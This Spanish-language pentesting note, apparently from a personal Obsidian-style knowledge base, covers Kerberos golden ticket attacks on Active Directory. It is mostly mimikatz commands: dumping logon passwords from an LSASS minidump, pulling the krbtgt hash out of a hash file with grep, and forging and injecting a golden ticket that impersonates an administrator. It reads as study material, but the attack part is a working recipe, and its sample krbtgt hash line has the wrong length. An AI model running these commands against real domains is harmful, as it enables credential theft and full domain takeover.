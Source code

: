 #### Desde LSASS
Con acceso al DC y sin privilegios elevados podríamos conseguir esta información (debemos obtener `lsass.dmp`)
```powershell
mimikatz.exe
sekurlsa::minidump
lsass.dmp sekurlsa::logonpasswords
```

#### Información que debemos extraer
La información que encontraremos es de la siguiente manera
```textplain
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60:::
```
Si tenemos la información de mas hashes en un archivo llamado `hashes.txt`, podemos obtener el hash `krbtgt` del siguiente modo: 
```bash
grep -oP '^krbtgt:\d+:[a-f0-9]{32}:\K[a-f0-9]{32}' hashes.txt
```

### Generar golden ticket
Necesitamos pasar los siguientes parámetros ([[Domain Trust#Escalada parent Domain con extraSIDs attack| ejemplo de ataque golden ticket]]):
- **`/user:Administrator`:** Usuario que quieres suplantar 
- **`/domain:dominio.local`:** Nombre del dominio.
- **`/sid:S-1-5-21-XXXX`:** SID del dominio.
- **`/krbtgt:<hash_krbtgt>`:** Hash NTLM de la cuenta `KRBTGT`.
- **`/groups:512`:** Grupo al que pertenece el usuario (por ejemplo, `512` es el SID de **Domain Admins**). No parece obligatorio
```powershell
# En shell de mimikatz
privilege::debug
# Una vez hayamos obtenido el ticket, puede convenir limpiar todos los tickets que existen, para no entrar en conflicto
kerberos::purge
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
# Después de generarlo, abrimos una nueva sesión de linea de comandos con las credenciales del ticket inyectado
misc::cmd
```

### Inyección en memoria del golden Ticket
```powershell
mimikatz.exe kerberos::ptt golden.kirbi
```

---
## Comparaciones
### `OPtH` vs `PtT`
